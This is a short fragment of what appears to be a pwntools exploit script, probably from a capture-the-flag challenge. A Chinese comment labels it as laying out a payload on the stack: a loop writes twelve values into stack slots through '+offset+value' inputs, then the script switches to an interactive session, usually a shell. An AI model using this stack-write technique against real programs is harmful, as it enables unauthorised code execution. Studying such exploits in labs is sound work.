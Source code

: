 ```python

#栈上pd1的布置
for i in range(0,12):
	s.sendline("+"+str(360+11-i)+"+"+str(pd1[11-i]))

s.sendline()

s.interactive()
```

